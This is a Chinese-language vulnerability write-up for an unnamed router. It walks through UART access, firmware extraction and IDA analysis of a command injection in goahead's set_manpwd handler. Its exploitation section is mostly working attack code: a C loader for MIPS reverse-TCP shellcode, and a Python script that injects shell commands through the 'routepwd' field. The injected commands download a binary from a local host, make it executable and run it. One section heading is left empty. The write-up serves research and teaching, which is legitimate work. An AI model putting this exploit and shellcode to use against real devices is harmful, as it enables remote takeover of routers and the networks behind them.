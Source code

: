 ## 某路由器漏洞

### 调试设备

首先通过路由器上的UART串口，进入路由器的调试窗口。

串口通讯针脚

![image-20201118173219549](https://yaseng-1251294608.cos.ap-guangzhou.myqcloud.com/image/image-20201118173219549.png)

接上串口模块后，连接计算机

![20201118165834](https://yaseng-1251294608.cos.ap-guangzhou.myqcloud.com/image/20201118165834.jpg)

通过串口调试工具来查看输出的调试信息，其中端口号是 COM8，波特率为 57600

![image-20201118173803487](https://yaseng-1251294608.cos.ap-guangzhou.myqcloud.com/image/image-20201118173803487.png)

连接成功进入 shell，可直接输入命令查看 cpu 等信息

![image-20201118174512699](https://yaseng-1251294608.cos.ap-guangzhou.myqcloud.com/image/image-20201118174512699.png)

### 漏洞挖掘





### 漏洞分析

使用 binwalk 解压固件

在 /bin 目录下可以得到路由器的 web服务器的二进制文件 goahead。使用 file 命令查看 goahead 的信息如下：

![img](https://img-1253984064.cos.ap-guangzhou.myqcloud.com/5b390d6b2a969.png)

可以看到目标平台是 mips32 位，LSB 字段表明是小端序，指令集为 mips32 rel2。 使用 ida 对 goahead 进行静态分析，在 strings 窗口中直接搜索 set_manpwd ，得到两处字符串。

![img](https://img-1253984064.cos.ap-guangzhou.myqcloud.com/5b390e34d34ae.png)

分别查看交叉引用得到 0x46c558 处的字符串在 sub_457ebc 中被引用两次，

![img](https://img-1253984064.cos.ap-guangzhou.myqcloud.com/5b39100b3120a.png)

0x46b6b4 处的字符串在 formDefineCGIjson 中被引用了一次。

![img](https://img-1253984064.cos.ap-guangzhou.myqcloud.com/5b3910574ca57.png)

查看 formDefineCGIjson 中的引用位置发现 websFormDefine 的第二个参数被置为 sub_457ebc 的指针。

![img](https://img-1253984064.cos.ap-guangzhou.myqcloud.com/5b391068d0fae.png)

推断 sub_457ebc 为主要处理 set_manpwd 的函数，进入sub_457ebc 函数发现主要有以下函数调用： 获取 routepwd 的值，该字段正是可以更改密码和命令执行的字段，

![img](https://img-1253984064.cos.ap-guangzhou.myqcloud.com/5b390e6acf933.png)

将传入的参数格式化成 json 对象并传入 bs_setmanpwd 函数，同时传入的还有当前栈帧的字符串地址，对 bs_setmanpwd 函数分析之后发现是一个来自 libshare.so 的库函数，且对我们的漏洞并无重大影响

![img](https://img-1253984064.cos.ap-guangzhou.myqcloud.com/5b390e7d89d76.png)

对 http 请求进行回复并删除 json 对象。

![img](https://img-1253984064.cos.ap-guangzhou.myqcloud.com/5b3910db68c51.png)

获取 password 并使用 password 格式化字符串 “chpasswd.sh admin %s”,可以看出此条命令应该和修改管理员密码有关，继续向下发现 bl_do_system 函数的参数为刚才格式化好的字符串，推测此处应该是修改密码并进行命令执行的地方。

![img](https://img-1253984064.cos.ap-guangzhou.myqcloud.com/5b390e87c11a9.png)



### 漏洞利用

#### 生成 payload

使用 [routersploit](https://github.com/threat9/routersploit) 生成一个 mipsel 下的 reverse_tcp shellcode。routersploit 是一款针对嵌入式设备的开源漏洞检测及利用框架。

![img](https://yaseng-1251294608.cos.ap-guangzhou.myqcloud.com/image/15137880896364.jpg)

将 shellcode 编写进 c 代码

```
#include <stdio.h>

typedef int(*fun)();

unsigned char sc[] = {
    "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04"
    "\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20"
    "\x80\x01\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27"
    "\x20\x80\x01\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24"
    "\x0c\x09\x09\x01\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09"
    "\x01\xc9\x0f\x02\x24\x0c\x09\x09\x01\x15\xb3\x05\x3c\x02\x00"
    "\xa5\x34\xf8\xff\xa5\xaf\x10\x65\x05\x3c\xc0\xa8\xa5\x34\xfc"
    "\xff\xa5\xaf\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01"
    "\x4a\x10\x02\x24\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08"
    "\x35\xec\xff\xa8\xaf\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff"
    "\xa8\xaf\xff\xff\x07\x28\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec"
    "\xff\xa4\x23\xec\xff\xa8\x23\xf8\xff\xa8\xaf\xf8\xff\xa5\x23"
    "\xec\xff\xbd\x27\xff\xff\x06\x28\xab\x0f\x02\x24\x0c\x09\x09"
    "\x01"
};

void main(void)
{
    fun pf;
    pf = (fun)sc;
    pf();
}
```



Buildroot编译

```
./mipsel-linux-gcc mipsel-reverse-tcp.c -o x
```



**EXP**

```python
# coding:utf-8
import   requests
import   telnetlib
import   time
import   sys

host  =  "192.168.16.1"
port = "23"
password= "iot_pwn_test"

headers = { 'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36',
            'Accept-Language'    : 'zh-CN,zh;q=0.8',
            'Content-Type':	'application/x-www-form-urlencoded'
          }

def command(con, flag, str_=""):
    data = con.read_until(flag.encode())
    print(data.decode(errors='ignore'))
    con.write(str_.encode() + b"\n")
    return data

def  set_pwd():
	url="http://%s/goform/set_manpwd" % (host)
	cookies = dict(platform='0',user='admin')
	data= {'type':'setmanpwd','routepwd':'iot_pwn_test'}
	r = requests.post(url, data= data ,cookies= cookies)

def  exploit(str):
	url="http://%s/goform/set_manpwd" % (host)
	cookies = dict(platform='0',user='admin')
	data= {'type':'setmanpwd','routepwd':'iot_pwn_test%0A &&  '+str}
	r = requests.post(url, data= data ,cookies= cookies)
	print r.text

def  execute():
	tn = telnetlib.Telnet(host)
	command(tn, "login: ", "admin")
	if password:
	    command(tn, "Password:", password)
	command(tn, "$", "ls")
	command(tn, "$", " exit")
	command(tn, "$", "")
	tn.close()

exploit('wget  http://192.168.16.103/x  -O  /tmp/a   &&  chmod  777  /tmp/a  &&   /tmp/a')

set_pwd()
```



